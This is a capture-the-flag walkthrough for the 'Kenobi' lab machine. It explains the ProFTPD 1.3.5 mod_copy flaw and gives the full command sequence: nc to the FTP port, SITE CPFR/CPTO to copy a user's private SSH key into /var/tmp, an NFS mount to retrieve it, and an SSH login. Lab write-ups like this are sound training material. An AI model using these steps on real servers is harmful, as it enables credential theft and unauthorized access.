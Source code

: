 
## **Theoretical Overview**

### **1. What is ProFTPD?**

- **ProFTPD (Professional FTP Daemon):**
    
    - An open-source **FTP server software** commonly used on Linux and Unix systems.
    - It allows users to upload, download, and manage files on a server via the **FTP protocol**.
- **FTP Basics:**
    
    - FTP servers run on **port 21** by default.
    - Users authenticate to access files and directories.
    - However, FTP servers are often misconfigured or left vulnerable to exploits.

---

### **2. What is mod_copy?**

- **mod_copy** is a module of ProFTPD.
    
    - Designed to allow authenticated users to **copy files or directories** from one location to another **on the same server**.
- **FTP Commands Used in mod_copy:**
    
    - **`SITE CPFR <source>` (Copy From):**
        - Specifies the file or directory you want to copy.
    - **`SITE CPTO <destination>` (Copy To):**
        - Specifies where the file or directory should be copied.

---

### **3. The Vulnerability in mod_copy**

- In **ProFTPD 1.3.5** and earlier, mod_copy has a critical flaw:
    - It **does not require authentication** for using `SITE CPFR` and `SITE CPTO`.
    - Any attacker with FTP access can copy **any file** on the system to a location they can access.

#### **Why This Happens:**

- The developers of ProFTPD did not correctly enforce user permissions in mod_copy.
- As a result:
    - Files like private SSH keys, sensitive configs, or password files can be copied.

---

### **4. Why Is This Useful?**

- **SSH Key Theft:**
    
    - A private SSH key is typically found in:
        - **`/home/<username>/.ssh/id_rsa`**
    - If an attacker steals this key, they can:
        - Authenticate as the user without knowing their password.
        - Log into the server via SSH with full access to the user’s account.
- **Writable Directories:**
    
    - Files cannot just be copied anywhere. To make use of them, the attacker needs:
        - A writable directory (e.g., `/var/tmp`).
        - A way to read or retrieve the file after copying.

---

### **5. NFS (Network File System)**

- **What is NFS?**
    
    - A protocol that allows files stored on a server to be accessed remotely like they are local files.
- **Why is NFS Relevant Here?**
    
    - The `/var` directory is exported over NFS.
    - This means the attacker can mount the directory on their own machine, giving them direct access to any files copied into `/var/tmp`.

---

## **What To Do (Practical Steps)**

Now that you understand the theory, here are the steps to exploit this vulnerability and retrieve the SSH private key.

---

### **1. Identify Writable Directories**

- From earlier tasks, we know that `/var/tmp` is writable by the attacker.
- This is where we’ll copy the SSH key.

---

### **2. Connect to the FTP Server**

- Use an FTP client (or command-line tools like `ftp` or `netcat`) to connect to the FTP server.

**Command:**

bash

Copy code

`nc <target-ip> 21`

---

### **3. Use mod_copy Commands to Copy the SSH Key**

- Once connected, use the following commands to exploit the vulnerability:

1. **Specify the Source File (the private key):**
    
    bash
    
    Copy code
    
    `SITE CPFR /home/kenobi/.ssh/id_rsa`
    
2. **Specify the Destination Directory (a writable location):**
    
    bash
    
    Copy code
    
    `SITE CPTO /var/tmp/id_rsa`
    

---

### **4. Mount the NFS Share**

- Now that the SSH key is copied to `/var/tmp`, use NFS to access it:

1. **Create a Mount Point on Your Machine:**
    
    bash
    
    Copy code
    
    `mkdir /mnt/kenobiNFS`
    
2. **Mount the Remote Directory:**
    
    bash
    
    Copy code
    
    `mount <target-ip>:/var /mnt/kenobiNFS`
    
3. **List Files in `/mnt/kenobiNFS/tmp`:**
    
    bash
    
    Copy code
    
    `ls -la /mnt/kenobiNFS/tmp`
    
    - You should see `id_rsa`.

---

### **5. Retrieve the SSH Key**

- Copy the key locally:
    
    bash
    
    Copy code
    
    `cp /mnt/kenobiNFS/tmp/id_rsa .`
    
- Set appropriate permissions for the key:
    
    bash
    
    Copy code
    
    `chmod 600 id_rsa`
    

---

### **6. Use the SSH Key to Log In**

- Log in to the Kenobi user’s account:
    
    bash
    
    Copy code
    
    `ssh -i id_rsa kenobi@<target-ip>`
    

---

### **7. Retrieve the User Flag**

- Once logged in as Kenobi:
    
    bash
    
    Copy code
    
    `cat /home/kenobi/user.txt`
    

---

### **Why Is This Vulnerability Significant?**

- It bypasses all authentication mechanisms.
- Attackers gain unauthorized access to sensitive data without any credentials.
- Exploiting this shows the importance of patching vulnerable software and auditing exposed services like FTP.
